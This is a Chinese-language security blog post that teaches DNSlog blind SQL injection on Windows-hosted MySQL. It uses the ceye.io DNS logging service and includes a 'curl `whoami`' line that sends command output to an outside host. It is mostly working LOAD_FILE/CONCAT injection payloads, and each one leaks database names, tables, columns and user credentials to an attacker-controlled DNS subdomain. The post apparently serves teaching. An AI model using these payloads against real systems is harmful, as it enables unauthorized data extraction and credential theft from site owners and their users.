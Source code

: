 ```yaml
---
layout: post
title: 1.3.3-SQL注入-SQL盲注-Dnslog盲注
categories:
  - - 安全
    - web安全
    - sql注入
tags: 
  - sql注入 
  - sql盲注
abbrlink: 2964387005
date: 2018-06-23 00:00:00
description: dnslog盲注
---
```


> 需要目标机器时windows系统

## DnsLog盲注

### DnsLog盲注原理
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/01.jpeg)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/02.jpeg)
Dnslog平台：http://ceye.io/  
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/03.jpeg)



	http://ceye.io/profile
	curl mzq83x.ceye.io

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/05.png)


	curl `whoami`.mzq83x.ceye.io


![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/06.jpeg)

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/04.jpeg)




![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/07.jpeg)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/08.jpeg)

### DnsLog盲注方法
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/09.jpeg)

	核心语法： SELECT LOAD_FILE(CONCAT('\\\\',(select database()),'.mysql.r5ourp.ceye.io\\abc'));
	sql语句不能含有特殊符号

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/10.jpeg)

	查表
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select table_name from information_schema.tables where table_schema=database() limit 0,1),'.mysql.r5oup.ceye.io\\abc'))--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/11.jpeg)

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/12.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select colum_name from information_schema.columns where table_name='users' limit 5,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/13.jpeg)
	
	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat(username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/14.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select concat_ws('A',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/15.jpeg)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/16.jpeg)

	?id=1' and LOAD_FILE(CONCAT('\\\\',(select hex('~',username,password) from security.users limit 0,1),'.mysql.r5ourp.ceye.io\\abc'))--+

![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/17.jpeg)




![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/18.jpeg)
![](https://raw.githubusercontent.com/tea9/image/master/blog_img/08/19.jpeg)

https://github.com/ADOOO/DnslogSqlinj